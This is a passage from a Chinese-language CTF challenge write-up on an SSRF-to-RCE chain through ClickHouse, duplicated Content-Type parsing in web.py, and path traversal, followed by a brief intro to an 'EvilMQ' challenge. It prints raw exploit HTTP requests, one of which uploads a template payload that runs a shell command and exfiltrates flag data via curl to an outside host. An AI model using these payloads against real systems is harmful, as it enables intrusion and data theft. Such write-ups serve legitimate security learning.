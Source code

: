 最后 render test.html 实现 RCE

```HTTP
POST /<TAB>HTTP/1.1/../../api/ping HTTP/1.1
Host: 127.0.0.1:8013
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 9

name=test
```

当然这个 POST 上传文件的 SSRF 其实是一种极特殊的场景, 因为对于以上 SQL 语句, ClickHouse 会携带一个 `Content-Type: text/tab-separated-values; charset=UTF-8` 头, 但是自己增加的 HTTP 头永远是在后面的, 例如:

```HTTP
POST /api/upload HTTP/1.1
Host: host.docker.internal
Transfer-Encoding: chunked
Content-Type: text/tab-separated-values; charset=UTF-8
Content-Type: multipart/form-data; boundary=----test
X-Access-Token: 06a181b5474d020c2237cea4335ee6fd
Connection: Close

F0
------test
Content-Disposition: form-data; name="myfile"; filename="../templates/test.html"
Content-Type: text/plain

$code:
    __import__('os').system('curl http://host.docker.internal:5555/?flag=`/readflag | base64`')
------test--

0
```

对于大多数中间件, 例如 Nginx, Express, Flask 都会选择只使用第一个 Content-Type, 对于 Gin, 则会将多个 Content-Type 放入一个数组, 而 web.py 会使用第二个 Content-Type, 这也是为什么 backend 会选择 web.py 这个目前不是很主流的 Web 框架 (

因为 ClickHouse 发送的 HTTP POST 请求永远都会使用 chunked 编码, 但在测试的时候发现 web.py 自身对 chunked 编码的解析好像并不是很好, 所以在外面加了一层 Gunicorn, 也刚好可以引出路径绕过这个点, 对于路径绕过的更多技巧可以参考陈师的 Demo: https://github.com/CHYbeta/OddProxyDemo

最后, 这道题是 11 月份出完的, 然后 12 月份打 0CTF/TCTF 2023 的时候发现它们也出了一道 ClickHouse 的题目,思路是通过 ClickHouse JDBC Bridge (需另外部署) 任意执行 JavaScript 实现 RCE, 然后打 Hive HDFS UDF RCE, 也挺有意思的, 有兴趣可以参考: https://github.com/zsxsoft/my-ctf-challenges/tree/master/0ctf2023/olapinfra

### EvilMQ

思路来源于前段时间的 ActiveMQ RCE (CVE-2023-46604), 后面 GitHub 全网搜了下 Apache 的其它项目发现这个 TubeMQ 也存在类似的问题, 不过这个是 Client 端 RCE, 需要自己构造一个 Evil Server

当然 Dubbo 也有, 但是已经被修了 (CVE-2023-29234), 有兴趣可以参考: https://xz.aliyun.com/t/13187

ActiveMQ RCE 分析: [https://exp10it.io/2023/10/Apache ActiveMQ (版本 < 5.18.3) RCE 分析/](https://exp10it.io/2023/10/apache-activemq-版本-5.18.3-rce-分析/)
